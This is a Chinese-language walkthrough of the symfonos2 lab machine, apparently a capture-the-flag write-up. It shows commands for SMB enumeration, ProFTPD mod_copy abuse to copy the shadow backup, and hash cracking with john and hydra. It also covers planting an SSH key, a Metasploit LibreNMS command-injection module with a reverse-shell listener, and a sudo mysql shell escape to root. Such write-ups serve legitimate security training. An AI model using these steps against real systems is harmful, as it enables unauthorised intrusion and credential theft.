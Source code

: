 # symfonos2

![image-20200622214334864](assets/symfonos2.assets/image-20200622214334864.png)

![image-20200622214517388](assets/symfonos2.assets/image-20200622214517388.png)

```bash
enum4linux -a 192.168.43.83
```

![image-20200622214839554](assets/symfonos2.assets/image-20200622214839554.png)

```bash
smbclient --no-pass //192.168.43.83/anonymous
```

免密连接一下

![image-20200622215016343](assets/symfonos2.assets/image-20200622215016343.png)

查看下载好的log.txt

![image-20200623041203737](assets/symfonos2.assets/image-20200623041203737.png)

得到用户名aeolus。

![image-20200622215855649](assets/symfonos2.assets/image-20200622215855649.png)

ftp 是ProFTPD 1.3.5，是存在漏洞的，但是使用ftp命令是无法匿名登录的，我们尝试使用telnet

![image-20200623041747356](assets/symfonos2.assets/image-20200623041747356.png)

成功匿名登录。利用ProFTPD 1.3.5已知漏洞将在log.txt中发现的被备份出来的shadow文件，复制到我们可以进行下载的smb目录

```bash
SITE CPFR /var/backups/shadow.bak
SITE CPTO /home/aeolus/share/shadow.bak
```

![image-20200623042122076](assets/symfonos2.assets/image-20200623042122076.png)

这时再次免密登录smb，即可看到我们复制过去的shadow.bak

![image-20200623042217585](assets/symfonos2.assets/image-20200623042217585.png)

下载到本地

![image-20200623042254178](assets/symfonos2.assets/image-20200623042254178.png)

查看

![image-20200623073046951](assets/symfonos2.assets/image-20200623073046951.png)

可以看到我们有root及两个额外的用户，拷贝副本，并编辑去掉无用的用户，以及由于是靶机所以我们不可能跑出来的root

![image-20200623074954130](assets/symfonos2.assets/image-20200623074954130.png)

送入john进行破解

![image-20200623075503172](assets/symfonos2.assets/image-20200623075503172.png)

第二种方法，这种要慢于本机使用john

可以尝试hydra破解aeolus的凭证

```bash
sudo hydra -l aeolus -P /usr/share/wordlists/rockyou.txt ssh://192.168.43.83 -t 4 -vV
```


![image-20200623022032522](assets/symfonos2.assets/image-20200623022032522.png)

```bash
aeolus:sergioteamo
```

尝试登录ssh，发现ssh需要公钥。

![image-20200623025021683](assets/symfonos2.assets/image-20200623025021683.png)

登录ftp，密码是复用的。

![image-20200623025106475](assets/symfonos2.assets/image-20200623025106475.png)

查看了一下没有其他东西，文件内容和smb是一个。

首先伪造一套ssh密钥

![image-20200623033042558](assets/symfonos2.assets/image-20200623033042558.png)

我们之前在log.txt中发现smb所进入的目录其真实路径为/home/aeolus/share，而由于其中内容backups与ftp内容一样，可以初步判断这是同一个文件夹。这样可以通过在ftp上传文件后，smb可以同步看到进行确认。



![image-20200623033736172](assets/symfonos2.assets/image-20200623033736172.png)

登录ftp

![image-20200623040219885](assets/symfonos2.assets/image-20200623040219885.png)

此时我们处于的目录应该是/home/aeolus，由于我们是使用aeolus用户登录的，故而，我们对这个目录具有可写权限。

新建.ssh目录，可以通过回显看到我们确实是在正确的目录中。上传我们伪造的ssh公钥。

![image-20200623040425082](assets/symfonos2.assets/image-20200623040425082.png)

此时再次登录ssh并使用我们刚才的id_rsa密钥文件，即可登录ssh

```bash
ssh -i id_rsa aeolus@192.168.43.83
```

![image-20200623040710594](assets/symfonos2.assets/image-20200623040710594.png)



上传linpeas和LinEnum到tmp文件夹做一些基础的枚举

![image-20200623080610926](assets/symfonos2.assets/image-20200623080610926.png)

![image-20200623081749087](assets/symfonos2.assets/image-20200623081749087.png)

在LinEnum的枚举结果中我们注意到用户cronus有运行apache

![image-20200623081917100](assets/symfonos2.assets/image-20200623081917100.png)

并且监听了8080

![image-20200623082006941](assets/symfonos2.assets/image-20200623082006941.png)

来查看一下，目标可以使用curl，用curl查看一下

![image-20200623082505288](assets/symfonos2.assets/image-20200623082505288.png)

确实有一个服务，并且应该是一个登录界面

![image-20200623082605130](assets/symfonos2.assets/image-20200623082605130.png)

我们现在将做一个端口转发，将内部的8080转发到外部，以方便我们进行下一步测试。

```bash
ssh -L 8080:localhost:8080 aeolus@192.168.1.124
```

![image-20200623083648300](assets/symfonos2.assets/image-20200623083648300.png)

这是在kali端浏览本地8080端口，就是目标机器的8080端口。

![image-20200623083631386](assets/symfonos2.assets/image-20200623083631386.png)

libreNMS

![image-20200623090233385](assets/symfonos2.assets/image-20200623090233385.png)

![image-20200623090252729](assets/symfonos2.assets/image-20200623090252729.png)

需要cookie，仔细看看标题是已认证登录之后才能执行远程命令执行。

尝试密码复用，成功

![image-20200623100429737](assets/symfonos2.assets/image-20200623100429737.png)

复制cookie，使用cookie quick manager插件

![image-20200623100545573](assets/symfonos2.assets/image-20200623100545573.png)

前两个都是登录之前的从cookie值，librenms_session则是登录后的cookie值

```bash
librenms_session=eyJpdiI6IlFzMlpSVXRsRkZLM3JwbWgxT0VyZ3c9PSIsInZhbHVlIjoidkl2Tkw2Z0RRaGZrVEQwVENXZkdldXd2cmVNcTVHS3kzQngrdEpjdlI4aVh0OUZ3YkdmeDBHSmt4THFQZXpiTjIxWXZlNldTTXBoa2Vjeit1Zzg4WUE9PSIsIm1hYyI6Ijc0NTUzOTdlMDNmMDhlZmY4ZGVjNzM0Y2M2MGM1OGNmNzhiYmFmYzA3NGVlNWFkMjM2MWZkYTRkM2U4ZDYwNjIifQ%3D%3D
```

构建漏洞利用执行语句
尝试手动利用失败，无法得到shell

利用msf

![image-20200623114419788](assets/symfonos2.assets/image-20200623114419788.png)


```bash
search libre
use exploit/linux/http/librenms_addhost_cmd_inject
set rhosts 127.0.0.1
set rport 8080
set lhost 192.168.1.108
set username aeolus
set password sergioteamo
exploit
```

![image-20200623115903113](assets/symfonos2.assets/image-20200623115903113.png)

![image-20200623120205619](assets/symfonos2.assets/image-20200623120205619.png)

```bash
sudo /usr/bin/mysql -e '\! /bin/sh'
```

![image-20200623120333783](assets/symfonos2.assets/image-20200623120333783.png)

